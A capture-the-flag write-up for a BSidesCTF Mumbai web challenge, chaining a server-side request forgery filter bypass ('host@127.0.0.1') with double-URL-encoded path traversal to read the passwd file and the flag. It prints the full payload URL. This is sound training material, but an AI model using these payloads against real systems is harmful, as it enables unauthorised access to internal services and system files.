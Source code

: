 ------------------

### CTF BSIDESCTF MUMBAI

------------------

![image](https://github.com/user-attachments/assets/a4b42a64-1f70-4091-b3ae-4aa84d952a30)


--------------------

- Web-:
 - Phantom-Binding

---------------------

### [Web]Phantom Binding

----------------------

![image](https://github.com/user-attachments/assets/a965b09f-e7d8-4b06-8b86-42ae916c4476)

-----------------------

- Ffuf's output-:

![image](https://github.com/user-attachments/assets/9d6a9321-1805-47cf-ab05-6569fdf954ee)


- Users get greeted with the login and register page.I followed the normal sequence by creating an account and logging in.

![image](https://github.com/user-attachments/assets/8d53fcbe-0e53-4760-8c75-adf5fcffe96e)

- I noticed a functionality that allows us to upload image through files or url.This can be an interesting point to try out ServerSide Request Forgery.

![image](https://github.com/user-attachments/assets/1fe12180-6655-43b8-a4a3-da665ef2804a)

- I tried to access internal port with the localhost but I didn't get a hit because it got filtered.

![image](https://github.com/user-attachments/assets/7b5d308f-119e-464d-b5a4-c95819f5455e)

- I decided to try this ssrf trick that requires `@`.Any host placed after `@` will get loaded and not the host before it.

```
google.com@127.0.0.1
```

- The `127.0.0.1` will get picked over `google.com`.In my case, I used an ngrok host.

![image](https://github.com/user-attachments/assets/7bcc45d7-acb9-4df8-ab94-8e91fc0e4d3d)

- The output gets rendered as an image as seen below.

```html


<!DOCTYPE html>
<html>
<head>
    <title>CTF Challenge</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .container {
            max-width: 800px;
            margin: 0 auto;
            background-color: #fff;
            padding: 20px;
            border-radius: 5px;
            box-shadow: 0 0 10px rgba(0,0,0,0.1);
        }
        h1 {
            color: #333;
        }
        .error {
            color: red;
            margin-bottom: 10px;
        }
        .success {
            color: green;
            margin-bottom: 10px;
        }
        input[type="text"], input[type="password"], input[type="file"] {
            width: 100%;
            padding: 10px;
            margin-bottom: 10px;
            border: 1px solid #ddd;
        }
        .user-table {
            width: 100%;
            border-collapse: collapse;
            margin-top: 20px;
        }
        .user-table th, .user-table td {
            padding: 8px;
            border: 1px solid #ddd;
            text-align: left;
        }
        .user-table th {
            background-color: #f2f2f2;
        }
    </style>
</head>
<body>
    <div class="container">
        
    <h1>Login</h1>
    
    <form method="post">
        <input type="text" name="username" placeholder="Username" required>
        <input type="password" name="password" placeholder="Password" required>
        <button type="submit">Login</button>
    </form>
    <p>Don't have an account? <a href="/register">Register here</a></p>

    </div>
</body>
</html>
```
- I accessed the admin page next and noticed an endpoint that allows us to view files.

![image](https://github.com/user-attachments/assets/f9a7d216-fe71-4043-b1ab-1846a008312a)

- This functionality will be a good stand to test path traversal to gain `Arbitrary file read`.I tried the basic `../../` but I got a 403 error.

![image](https://github.com/user-attachments/assets/43d48383-dfe2-4dfd-a058-e1de48655628)

- I tested the double-url encoded trick which worked.I was able to read the passwd file.

![image](https://github.com/user-attachments/assets/d9898361-24b0-4560-89cd-69e378a3413c)

- After checking the common spots for the flag file.I could not find the file.I rechecked the admin page for hints and I got one.A php file points to the flag which is being stored at `/var/flag/flag.txt`.

![image](https://github.com/user-attachments/assets/cf2e2e16-f67c-45dc-84f5-c0a58ad43c3d)

![image](https://github.com/user-attachments/assets/14f943ee-7bea-4765-a7a1-2e82ee0382a4)

- I read the flag with this payload-:

```url
http://6.tcp.eu.ngrok.io:16967@127.0.0.1/admin/view_file?file=%252E%252E%252F%252E%252E%252Fvar%252Fflag%252Fflag.txt
```

- Flag-: ```BMCTF{LOCALHOST_isnt_ALWAYS_local}```

![image](https://github.com/user-attachments/assets/ed515136-f3a7-4b78-be08-cd59b97700af)

-----------------









